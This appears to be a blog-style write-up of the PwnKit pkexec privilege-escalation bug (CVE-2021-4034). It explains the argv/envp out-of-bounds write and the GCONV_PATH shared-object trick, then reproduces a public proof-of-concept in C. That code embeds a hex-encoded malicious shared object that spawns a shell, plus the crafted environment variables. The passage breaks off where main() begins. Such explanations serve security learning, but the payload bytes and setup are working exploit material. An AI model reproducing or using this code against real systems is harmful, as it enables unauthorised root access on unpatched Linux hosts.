 When we `execve()` a new program, the current process will replace its memory image with the a program loaded from disk (specified in the arguments).

SO. Suppose we run `execve("/usr/bin/pkexec", {NULL}, bad_envp[])`. That block of `arg[]` is only `arg[0]`. But, remember, we can write to `arg[1]`. Since C doesn't check this stuff at runtime, `arg[1]` will point to `envp[0]`, MEANING, we can throw whatever environment variable we want into `pkexec`'s runtime, which is SUID-root.

### The Actual Hack
Everything before this is the bulk of the exploit. I don't want to fully rewrite the original writeup in my own words so as to take away from their discovery, so I'll explain the "payload delivery" bit very briefly.

Quote Qualys:
> "if our PATH is "PATH=name=.", and if the directory "name=." exists and contains an executable file named "value", then a pointer to the string "name=./value" is written out-of-bounds to envp[0] ... Our question is: to successfully exploit this vulnerability, which 'unsecure' variable should we re-introduce into pkexec's environment?"

The short answer to this is that, at some point, `pkexec` can write an error to standard error using a library that allows you to change the character set used in the error message. *That* functionality eventually leads to the loading of a shared object (`.so`) file, which we can control by setting environment variables to load a specific configuration, of our choice.

We can set up a malicious shared object file to pop a shell, and since it runs as SUID-root, that shell will be a root shell. If you want to read the specifics, again, I encourage, and implore you, to go read the linked blog posts from the research team itself.

## gib hax pls
Okay, so long theory explanation over, I now gib hax. 

![hax](https://c.tenor.com/Z4Ks69TQz0wAAAAC/hacker-pepe.gif)

### Proof of Concept
A number of PoC's (proof of concepts) have popped up on GitHub since the writeup was put out. The first one I found was by [clubby789](https://github.com/clubby789/CVE-2021-4034), who does a lot of stuff over at HackTheBox. This is their source code:

```c
#include <sys/stat.h>
#include <stddef.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>

// https://saarsec.rocks/2020/05/14/golf.so.html
const char evil_so[] = "\x7f\x45\x4c\x46\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x3e\x00\x01\x00\x00\x00\x28\x80\x04\x08\x00\x00\x00\x00\x3f\x00\x00\x00\x00\x00\x00\x00\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\xeb\x06\x40\x00\x38\x00\x02\x00\x48\xf7\xdb\xeb\x18\x01\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80\x04\x08\x00\x00\x00\x00\x31\xc0\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x69\xeb\x5a\x00\x00\xd4\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x06\x00\x00\x00\x8f\x00\x00\x00\x00\x00\x00\x00\x8f\x80\x04\x08\x00\x00\x00\x00\x0c\x00\x00\x00\x00\x00\x00\x00\x28\x80\x04\x08\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x57\x48\x31\xff\x0f\x05\xb8\x6a\x00\x00\x00\x0f\x05\x5f\xb8\x3b\x00\x00\x00\x0f\x05";
const char evil_mod[] = "module INTERNAL evil// evil 2\n";
char *envp[] = {
        "evildir",
        "PATH=GCONV_PATH=.",
        "CHARSET=evil",
        "SHELL=evil",
        NULL
    };

int main() {
```